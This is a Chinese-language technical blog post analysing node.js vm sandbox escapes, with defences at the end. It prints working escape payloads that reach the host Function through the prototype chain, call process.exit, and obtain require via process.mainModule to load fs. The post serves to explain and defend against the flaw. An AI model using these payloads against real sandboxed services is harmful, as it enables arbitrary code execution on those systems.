 title: node.js 沙盒逃逸分析
subtitle: 有在项目中用过 vm 吗？或使用过 eval、Function 等功能吗？本文介绍了 node.js 沙盒逃逸过程分析及相关防御措施。
cover: http://img13.360buyimg.com/ling/jfs/t1/131438/31/13862/68341/5f992d8cE4f40cb7a/effa06ff6acb0196.jpg
category: node.js
tags:
  - node.js
	- vm
	- web 安全
author:
	nick: nobo
	github_name: bplok20010
date: 2020-10-28 15:40:20

---

## 背景

日常开发需求中有时候为了追求灵活性或降低开发难度，会在业务代码里直接使用 eval/Function/vm 等功能，其中 eval/Function 算是动态执行 JS，但无法屏蔽当前执行环境的上下文，但 node.js 里提供了 vm 模块，相当于一个虚拟机，可以让你在执行代码时候隔离当前的执行环境，避免被恶意代码攻击。

## vm 基本介绍

vm 模块可在 V8 虚拟机上下文中编译和运行代码，虚拟机上下文可自行配置，利用该特性做到沙盒的效果。例如：

```js
const vm = require("vm");

const x = 1;
const y = 2;

const context = { x: 2, console };
vm.createContext(context); // 上下文隔离化对象。

const code = "console.log(x); console.log(y)";

vm.runInContext(code, context);
// 输出 2
// Uncaught ReferenceError: y is not defin
```

根据以上示例，可以看出和 eval/Function 最大的区别就是可自定义上下文，也就可以控制被执行代码的访问资源。例如以上示例，除了语言的语法、内置对象等，无法访问到超出上下文外的任何信息，所以示例中出现了错误提示: y 未定义。以下是 vm 的的执行示例图：

![](https://img11.360buyimg.com/ling/jfs/t1/117034/1/18995/21440/5f729665E2ab8003c/23509c6339364ea6.png)

沙盒环境代码只能读取 VM 上下文 数据。

## 沙盒逃逸

node.js 在 vm 的文档页上有如下描述：

**vm 模块不是安全的机制。 不要使用它来运行不受信任的代码。**

刚开始看到这句话的很好奇，为什么会这样？按照刚才的理解他应该是安全的？搜索后我们找到一段逃逸示例：

```js
const vm = require("vm");

const ctx = {};

vm.runInNewContext(
	'this.constructor.constructor("return process")().exit()',
	ctx
);
console.log("Never gets executed.");
```

**以上示例中 this 指向 ctx 并通过原型链的方式拿到沙盒外的 Funtion，完成逃逸，并执行逃逸后的 JS 代码。**

以上示例大致拆分：

```js
tmp = ctx.constructor; // Object

exec = tmp.constructor; // Function

exec("return Process");
```

以上是通过原型链方式完成逃逸，如果将上下文对象的原型链设置为 null 呢？

```js
const ctx = Object.create(null);
```

这时沙盒在通过 ctx.constructor，就会出错，也就无法完成沙盒逃逸，完整示例如下：

```js
const vm = require("vm");

const ctx = Object.create(null);

vm.runInNewContext(
	'this.constructor.constructor("return process")().exit()',
	ctx
);
// throw Error
```

**但，真的这样简单吗？**

再来看看以下成功逃逸示例：

```js
const vm = require("vm");
const ctx = Object.create(null);

ctx.data = {};

vm.runInNewContext(
	'this.data.constructor.constructor("return process")().exit()',
	ctx
);
// 逃逸成功！
console.log("Never gets executed.");
```

**为什么会这样？**

**原因**

由于 JS 里所有对象的原型链都会指向 Object.prototype，且 Object.prototype 和 Function 之间是相互指向的，所有对象通过原型链都能拿到 Function，最终完成沙盒逃逸并执行代码。

逃逸后代码可以执行如下代码拿到 require，从而并加载其他模块功能，示例：

```js
const vm = require("vm");

const ctx = {
	console,
};

vm.runInNewContext(
	`
    var exec = this.constructor.constructor;
    var require = exec('return process.mainModule.constructor._load')();
    console.log(require('fs'));
`,
	ctx
);
```

沙盒执行上下文是隔离的，但可通过原型链的方式获取到沙盒外的 Function，从而完成逃逸，拿到全局数据，示例图如下：

![](https://img30.360buyimg.com/ling/jfs/t1/155047/21/1078/28921/5f729672E676f483b/76a7d6920effeca2.png)

## 总结

由于语言的特性，在沙盒环境下通过原型链的方式能获取全局的 Function，并通过它来执行代码。

最终确实如官方所说，在使用 vm 的时应确保所运行的代码是可信任的。

eval/Function/vm 等可动态执行代码的功能在 JavaScript 里一定是用来执行可信任代码。

以下可能是比较常见会用到动态执行脚本的场景：模板引擎，H5 游戏、追求高度灵活配置的场景。

## 解决方案

-   事前处理，如：代码安全扫描、语法限制
-   使用 vm2 模块，它的本质就是通过代理的方式来进行安全校验，虽然也可能还存在未出现的逃逸方式，所以在使用时也谨慎对待。
-   自己实现解释器，并在解释器层接管所有对象创建及属性访问。
